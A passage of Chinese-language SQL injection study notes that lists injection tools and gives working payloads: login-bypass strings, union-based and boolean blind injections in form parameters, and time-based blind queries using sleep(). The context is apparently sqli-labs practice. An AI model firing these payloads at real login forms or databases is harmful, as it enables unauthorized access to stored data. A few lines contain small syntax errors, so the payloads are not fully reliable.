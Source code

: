 - 穿山甲注入软件
- 海阳顶端注入软件

#### 安全专家用的注入工具

- BSQL Hacker（注入框架）
- The Mole（可攻击Mysql、SQL server、Postgres和oracle）
- Pangolin （白帽专用啊哈哈哈哈）
- sqlamp  （非常强大）
- Havij （可攻击Mysql、oracle、Postgres、MS Access）
- safe3 SQL Injector（简单易用）
- SQL Poizon

### 10. 笔记

- 爆SQL
  select schema_name from information_schema.schemata
  猜数据库
  select schema_name from information_schema.schemata limit 0,1 （limit第几行）
  test
- select table_name from information_schema.tables where table_schema='xxxxx'
  猜某库的数据表
- select column_name from information_schema.columns where table_name='xxxxx'
  猜某表的所有列
- select *** from ***
- 
- mid(a,b,c)从位置 b 开始，截取 a 字符串的 c 位
  ord 同ASCII
  substr（user(),2,1）
  substr（database(),2,1）从databases数据库名的第2位，截取长度为1
  Order by 对前面的数据进行排序
  information_schema 系统数据库名
  tables 表名
  information_schema.tables 查询这个数据库表
  table_schema 这个字段
  select table_name from information_schema.tables where table_schema = "security";
  select 列名称from表名 where列 运算符 值
  @$sql="SELECT username, password FROM users WHERE username='admin'or'1'='1# and
  password='$passwd' LIMIT 0,1";
  数据库运行的SQL语句代码如上:
  输入“ ‘后，注意 提示语法错误的 注明 ’ ” ）
  ') or '1'=('1' 
  ) or 1=1 -
  ') or 1=1 order by 2  查看几列
- 显示登录信息可以使用联合查询得到数据库名等信息
  uname=1admin'union select 1,database()-- -&passwd=&submit=Submit
  联合查询  得到  database(数据库名)
- 不显示登录信息使用 布尔型盲注
  uname=admin')and left(database(),1)>'a'#&passwd=1&submit=Submit
  database(),1表示第一位 >大于a        大于的话就返回true
  left(database(),1) ='s'    截取数据库名的前1位 
  left(database(),2) ='se'  截取数据库名的前2位 
  length(database())=8  查看数据库的长度
  left(version()1)=5    查看数据库第1位为5
  通过二分法 查到某位没有>,= a（或者数字）
  注释掉最后字符 -- - --+ # %23 （每个试）
- substr(database(),,c)从 b 位置开始，截取字符串 a 的 c 长度。Ascii()将某个字符转换
  为 ascii 值
- admin'and If(ascii(substr(database(),2,1))=115,1,sleep(5))#
  时间注入 正确的话 直接登录，否则延迟5秒，得出 数据库名为 security
  'and If(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101,1,sleep(5))-- -
  猜测第一个数据表的第一位是 e...依次类推，得到 emai
  limit 0,1 从0的位置开始 第1行 是emai  limit 1,1 从1的位置开始 第1行 是 ？？